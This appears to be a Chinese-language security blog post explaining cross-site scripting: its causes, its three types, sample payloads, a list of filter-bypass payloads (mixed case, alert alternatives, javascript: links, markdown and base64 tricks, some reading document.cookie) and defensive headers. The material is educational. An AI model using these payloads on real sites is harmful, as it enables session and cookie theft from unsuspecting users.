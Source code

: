 ```yaml
---
layout: post
title:  XSS-跨站脚本攻击
date: 2021-06-30 16:20 +0900
category: penetration-theory
---
```

<!-- TOC -->

- [0x0 WHAT-什么是XSS](#0x0-what-什么是xss)
- [0x1 WHY-XSS产生的成因](#0x1-why-xss产生的成因)
- [0x2 HOW-XSS的分类](#0x2-how-xss的分类)
  - [0x2.1 反射型XSS](#0x21-反射型xss)
  - [0X2.2 存储型XSS](#0x22-存储型xss)
  - [0x2.3 dom型XSS](#0x23-dom型xss)
  - [0x2.4 姿势](#0x24-姿势)
  - [0x2.5 绕过姿势](#0x25-绕过姿势)
- [0x3 防护手段](#0x3-防护手段)

<!-- /TOC -->
## 0x0 WHAT-什么是XSS

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**XSS全称为Cross Site Scripting，为了和CSS分开简写为XSS，中文名为跨站脚本。该漏洞发生在用户端，是指在渲染过程中发生了不在预期过程中的JavaScript代码执行。XSS通常被用于获取Cookie、以受攻击者的身份进行操作等行为。**  
- XSS的成因：服务器没有对用户的输入做过滤，利用的是浏览器会自动执行服务器发来的JS代码
- XSS的常见的了用方式：盗取cooike，流量劫持（让用户一直访问某个网站），攻击者通过CSRF等方式以用户身份执行危险操作
- 判断方式：留言板

## 0x1 WHY-XSS产生的成因

- 开发者没有对用户输入的信息做过滤，从而导致了用户可以输入恶意JS代码使浏览器执行

## 0x2 HOW-XSS的分类

### 0x2.1 反射型XSS

**一般需要配合CSRF**
- 反射型XSS通常出现在搜索等功能中，需要被攻击者点击对应的链接才能触发，且受到XSS Auditor、NoScript等防御手段的影响较大。

### 0X2.2 存储型XSS

**存在服务器端**
- 存储型XSS属于高危漏洞，攻击者能够把攻击载荷存入服务器的数据库中，造成持久化的攻击。

### 0x2.3 dom型XSS

- DOM型XSS不同之处在于DOM型XSS一般和服务器的解析响应没有直接关系，而是在JavaScript脚本动态执行的过程中产生的。

### 0x2.4 姿势

1. 普通弹窗
  - `http://localhost:8080/helloController/search?name=<script>alert("hey!")</script>`
  - `http://localhost:8080/helloController/search?name=<img src='w.123' onerror='alert("hey!")'>`
  - `http://localhost:8080/helloController/search?name=<a onclick='alert("hey!")'>点我</a>`

2. 图片诱导
  - `< img onclick="window.location.href='http://www.baidu.com'" width='300' src='img/webwxgetmsgimg.jpg'/>`

3. 流量劫持
  - `<script>window.location.href="http://www.baidu.com";</script>`

4. 盗取cooike
  - 借用XSS平台生成恶意链接

### 0x2.5 绕过姿势

1. 大小写绕过
   1. `<sCrIpT>alert(1)</sCrIpT>`
   2. `<iMg src=1 oNeRrOr=alert(1)>`
   3. `<marquee onscroll=alert(1)>`
2. 多种alert
   1. `<script>alert(1)</script>`
   2. `<script>prompt(1)</script>`
   3. `<script>top["al"+"ert"](1)</script>`
3. 伪协议绕过
   1. `<a href=javascript:/0/,alert(%22M%22)>M</a>`
   2. `<a href=javascript:/M/,alert(%22M%22)>M</a>`
4. 图片名绕过
   1. `"><img src=x onerror=alert(document.cookie)>.gif`
5. markdown绕过
   1. `![a'"onerror=prompt(document.cookie)](x)`
   2. `![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)`

[更多请点击此处](https://websec.readthedocs.io/zh/latest/vuln/xss/payload.html)  
[markdown语法下的:盗取COOike，XSS例子](javascript:window.onerror=alert;throw%20document.cookie)

## 0x3 防护手段

1. HTML过滤，使用一些白名单或者黑名单来过滤用户输入的html
2. X-Frame：利用X-Frame-Options响应头
   1. DENY：页面不能嵌入到任何iframe或者frame中
   2. SAMEORIGIN：页面只能被本站页面嵌入
   3. ALLOW-FROM:允许iframe或者frame加载
3. XSS保护头：利用X-XSS-Protection来进行保护
   1. 0 : 表示关闭浏览器的XSS防护机制
   2. 1 : 删除检测到的恶意代码， 如果响应报文中没有看到 X-XSS-Protection 字段，那么浏览器就认为X-XSS-Protection配置为1，这是浏览器的默认设置
   3. 1; mode=block : 如果检测到恶意代码，在不渲染恶意代码
